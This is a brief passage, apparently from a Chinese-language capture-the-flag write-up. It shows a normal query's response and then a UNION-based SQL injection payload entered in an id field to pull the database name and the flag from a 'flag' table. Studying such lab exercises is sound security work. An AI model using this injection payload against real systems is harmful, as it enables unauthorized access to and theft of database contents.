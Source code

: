先正常查询，得到回复：
```
admin says: "The flag is stored in database."
```
然后再在id栏输入以下语句实现SQL注入：

```sql
3' UNION SELECT 1,database(),flag FROM flag#
```